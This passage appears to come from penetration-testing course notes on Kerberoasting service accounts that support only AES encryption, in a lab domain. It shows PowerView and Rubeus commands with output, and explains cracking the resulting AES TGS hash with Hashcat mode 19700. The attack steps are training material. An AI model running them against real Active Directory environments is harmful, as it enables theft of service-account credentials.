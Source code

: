Let's assume that our client has set SPN accounts to support AES 128/256 encryption.

<figure><img src="../../.gitbook/assets/aes_kerberoast.webp" alt=""><figcaption></figcaption></figure>

If we check this with PowerView, we'll see that the `msDS-SupportedEncryptionTypes attribute` is set to `24`, meaning that AES 128/256 encryption types are the only ones supported.

<mark style="color:green;">**Checking Supported Encryption Types**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            24 testspn
```
{% endcode %}

Requesting a new ticket with Rubeus will show us that the account name is using AES-256 (type 18) encryption.

<mark style="color:green;">**Requesting a New Ticket**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell-session
PS C:\htb>  .\Rubeus.exe kerberoast /user:testspn /nowrap
----------------------
[*] Supported ETypes       : AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96
[*] Hash                   : $krb5tgs$18$testspn$INLANEFREIGHT.LOCAL$*testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$3D53
```
{% endcode %}

To run this through Hashcat, we need to use hash mode `19700`, which is `Kerberos 5, etype 18, TGS-REP (AES256-CTS-HMAC-SHA1-96)` per the handy Hashcat [example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) table. We run the AES hash as follows and check the status, which shows it should take over 23 minutes to run through the entire rockyou.txt wordlist by typing `s` to see the status of the cracking job.
